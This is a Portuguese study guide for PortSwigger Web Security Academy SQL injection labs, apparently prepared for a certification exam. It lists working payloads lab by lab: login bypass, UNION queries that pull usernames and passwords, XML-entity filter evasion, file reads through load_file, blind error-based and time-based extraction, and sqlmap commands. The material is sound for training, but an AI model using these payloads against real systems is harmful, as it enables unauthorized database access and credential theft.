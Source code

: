 # SQL Injection

Para o aprendizado, aprenda como explorar os laboratórios manualmente. É fundamental que você entenda como os ataques, os payloads e as queries funcionam no back-end.

Para o exame, aprenda como usar o SQLMap para resolver os laboratórios. O maior desafio do exame é o limite de tempo, e usar o SQLMap vai te poupar MUITO tempo.

Procure por Injection em funções óbvias como buscas, mas também em outros exemplos da PortSwigger como nos cookies.

> [!TIP]
> Às vezes copiar a request do Burp e colar em um arquivo .TXT não vai funcionar no SQLMap. Para resolver isso, você pode tanto salvar o arquivo clicando com o botão direito na request e em "Save Item" ou pegar a requisição pela tab Network do browser e selecionar "copy as cURL".

<br>

## Laboratórios

**SQL Injection with Filter bypass via XML encoding**

Descubra o Injection com:
```
<storeId>
    1 + 1
</storeId>
```

Utilize a extensão Hackvertor para encodar o payload em entidades:

Extensions --> Hackvertor --> Encode --> dec_entities ou hex_entities
```
<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>
```

Versão adaptada:
```
<@hex_entities>1 UNION all select load_file('/home/carlos/secret')<@/hex_entities>  

OU

<@hex_entities>1 UNION all select load_file('/home/carlos/secret') into outfile '/tmp/secret'<@/hex_entities>
```

<br>
<br>

**SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data**

```
filter?category=Gifts' OR 1=1--
```

<br>
<br>

**SQL Injection Vulnerability Allowing Login Bypass**
```
administrator'--
```

<br>
<br>

**SQL Injection Attack, Listing the Database Contents on non-Oracle Databases**
```
sqlmap -u "https://0abb004b036cf05c8057b76900880048.web-security-academy.net/filter?category=Food+%26+Drink" <HEADERS COPIED BY CURL> -dbms postgresql --dbs
```

<br>
<br>

**SQL Injection Attack, Listing the Database Contents on Oracle**
```
sqlmap -u "https://0a5b000e03ac492e8091e99900e7000a.web-security-academy.net/filter?category=Pets" <HEADER COPIED BY CURL> --dbms Oracle --dbs
```

<br>
<br>

**SQL Injection UNION attack, Retrieving Data from Other Tables**
```
GET /filter?category=Gifts' UNION SELECT password,NULL from users--
```

<br>
<br>

**SQL Injection UNION Attack, Retrieving Multiple Values in a Single Column**
```
/filter?category=Gifts' UNION SELECT NULL,username || '~' || password
```

<br>
<br>

**Blind SQL Injection with Conditional Responses**
```
# Salve a request em um arquivo e coloque um asterisco no cookie vulnerável:
Cookie: TrackingId=*;

sqlmap -r request.txt
```

O comando acima vai utilizar injeção baseado em tempo e isso vai demorar bastante.

Para usar injeção condicional (utilize um cookie válido):
```
sqlmap -r request.txt --cookie="TrackingId=eZtIVdXggNeHUXsS" --string "Welcome" --technique B -p "TrackingId" --level 3 --dbs
```

<br>
<br>

**Blind SQL Injection with Conditional Errors**
```
# Error 500 significa que a query é verdadeira
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'

# Status 200 significa que a query é falsa
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

<br>
<br>

**Visible Error-Based SQL Injection**
```
TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

<br>
<br>

**Blind SQL Injection with Time Delays and Information Retrieval**
```
# Lembre de encodar o ponto e vírgula em URL

# Descobrindo o tamanho do password:
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

# Utilizando o Intruder para dumpar a senha:
';SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

# Utilizando Python:
';SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,%s,1)='%s') THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users--
```

SQL Injection with Filter Bypass via XML encoding








